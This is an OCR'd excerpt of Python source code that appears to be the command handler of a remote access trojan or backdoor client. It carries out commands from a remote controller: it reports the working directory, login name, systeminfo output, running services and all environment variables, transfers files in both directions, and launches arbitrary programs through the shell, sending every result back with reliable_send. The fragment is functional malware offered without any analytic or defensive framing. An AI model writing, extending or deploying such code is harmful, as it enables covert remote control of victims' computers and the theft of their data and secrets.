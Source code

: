             except:
                pass
        elif command == 'pwd':
            try:
                files = os.getcwd()
                files = str(files)
                reliable_send(files)
            except:
                pass
        elif command[:9] == 'download ':
            upload_file(command[9:])

        elif command[:7] == 'upload ':
            download_file(command[7:])

        elif command == 'user':
            try:
                detail = os.getlogin()
                detail = str(detail)
                reliable_send(detail)
            except:
                pass
        elif command == 'info':
            try:
                execute = subprocess.run("systeminfo", shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE,
                                   stdin=subprocess.PIPE)
                result = execute.stdout.decode() + execute.stderr.decode()
                #result = result.decode()
                reliable_send(result)
            except:
                pass

        elif command == 'service':
            try:
                execute = subprocess.run("net start", shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE,
                                   stdin=subprocess.PIPE)
                result = execute.stdout.decode()+ execute.stderr.decode()
                #result = result.decode()
                reliable_send(result)
            except:
                pass

        elif command == 'help':
            pass

        elif command[:5] == 'start':
            try:
                subprocess.Popen(command[6:], shell=True)
                reliable_send("Program Started")
            except:
                reliable_send("Failed To Start The Program")

        elif command == 'env':
            try:
                execute = subprocess.run(['powershell', 'Get-Childitem -path env:'], shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE,
                                   stdin=subprocess.PIPE)
                result = execute.stdout + execute.stderr
                result = result.decode()
                reliable_send(result)
            except:
                pass
